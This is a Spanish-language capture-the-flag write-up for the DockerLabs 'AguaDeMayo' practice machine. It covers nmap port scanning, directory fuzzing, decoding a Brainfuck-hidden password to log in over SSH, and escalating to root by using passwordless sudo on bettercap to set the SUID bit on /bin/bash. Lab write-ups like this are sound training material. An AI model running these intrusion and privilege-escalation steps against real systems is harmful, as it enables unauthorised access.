 ```yaml
---
title: AguaDeMayo
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2024-12-1
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-aguademayo/aguademayo_logo.png
categories:
  - Docker_Labs
tags:
  - linux
  - dockerlabs
  - fuzzing_web
  - data_leaks
  - sudo_abuse
  - suid
  - ssh
  - http
  - tcp
  - information_gathering
  - web_analysis
  - data_leak_exploitation
  - privilege_escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/aguademayo:-$ ping -c 1 127.17.0.2
PING 127.17.0.2 (127.17.0.2) 56(84) bytes of data.
64 bytes from 127.17.0.2: icmp_seq=1 ttl=64 time=0.047 ms

--- 127.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.047/0.047/0.047/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/aguademayo:-$ sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG nmap1 127.17.0.2
Host: 127.17.0.2 ()	Status: Up
Host: 127.17.0.2 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///	Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/aguademayo:-$ sudo nmap -sCV -p22,80 -vvv -oN nmap2 127.17.0.2
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 75:ec:4d:36:12:93:58:82:7b:62:e3:52:91:70:83:70 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMRaeMl5HzP0PMKd1yfAOHuPCmNExZI/4DB9HSC9ziglgySQKRqzfbEbqD00WXMvvvDpN/94jzGTgYk8w7TNN4Q=
|   256 8f:d8:0f:2c:4b:3e:2b:d7:3c:a2:83:d3:6d:3f:76:aa (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOyI2THRG4Km6KNuoxG54FJksK4r+Dz2kw0+rBZcYhkC
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.59 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.59 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---
## Web Analysis & Data Leak Exploitation

La página web inicial parece ser una plantilla predeterminada de Apache.

![](/assets/img/dockerlabs-writeup-aguademayo/aguademayo1.png)

Durante el proceso de fuzzing, encuentro un subdirectorio accesible

```terminal
/home/kali/Documents/dockerlabs/aguademayo:-$ dirsearch -u http://127.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[14:13:33] 301 -  309B  - /images  ->  http://127.17.0.2/images/
```

Dentro de este directorio, hay una imagen con un nombre sospechoso, 'agua_ssh'.

![](/assets/img/dockerlabs-writeup-aguademayo/aguademayo2.png)

Otro elemento sospechoso, son una serie de caracteres al final del código fuente de la página principal normalmente no deberían estar presentes en una plantilla de Apache.

```terminal
/home/kali/Documents/dockerlabs/aguademayo:-$ curl 127.17.0.2
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
  <head>
	.
	.
	.
  </head>
  <body>
	.
	.
	.
  </body>
</html>

<!--
++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.
-->
```

Tras investigar, descubro que se trata de código escrito en un lenguaje llamado Brainfuck.

Si utilizo un decodificador para interpretar el código.

<https://www.dcode.fr/brainfuck-language>

El resultado es una cadena que parece ser una contraseña.

![](/assets/img/dockerlabs-writeup-aguademayo/aguademayo3.png)

Con estas credenciales 'agua:bebeaguaqueessano' puedo acceder al sistema vía SSH.

```terminal
/home/kali/Documents/dockerlabs/aguademayo:-$ ssh agua@127.17.0.2
agua@127.17.0.2's password: bebeaguaqueessano

agua@kali:~$ whoami
agua
```

---
## Privilege Escalation

Al iniciar sesión, verifico que el usuario actual pertenece al grupo 'lxd' y tiene un entorno de shell interactivo configurado.

```terminal
agua@kali:~$ id
uid=1000(agua) gid=1000(agua) groups=1000(agua),104(lxd)
```

El archivo '/etc/passwd' confirma que el usuario agua utiliza '/bin/bash' como shell por defecto.

```terminal
agua@kali:~$ cat /etc/passwd | grep /bash$
root:x:0:0:root:/root:/bin/bash
agua:x:1000:1000::/home/agua:/bin/bash
```

El usuario 'agua' tiene permisos para ejecutar el binario '/usr/bin/bettercap' como 'root' sin necesidad de proporcionar una contraseña.

```terminal
agua@kali:~$ sudo -l
```

![](/assets/img/dockerlabs-writeup-aguademayo/aguademayo4.png)

Al ejecutar 'sudo /usr/bin/bettercap', se abre el prompt interactivo de la herramienta. Desde allí, con el comando 'help', se pueden listar las funciones y comandos disponibles.

Una funcionalidad destacada de este entorno es que permite ejecutar comandos del sistema utilizando el símbolo '!'.

```terminal
agua@kali:~$ sudo /usr/bin/bettercap
```

![](/assets/img/dockerlabs-writeup-aguademayo/aguademayo5.png)

![](/assets/img/dockerlabs-writeup-aguademayo/aguademayo6.png)

Aprovechando esta característica, asigno el bit SUID al binario '/bin/bash'

Esto modifica los permisos del binario bash, permitiendo que cualquier usuario que lo ejecute obtenga privilegios de 'root'.

```terminal
agua@kali:~$ /bin/bash -p
bash-5.2# id
uid=1000(agua) gid=1000(agua) euid=0(root) egid=0(root) groups=0(root),104(lxd),1000(agua)
```
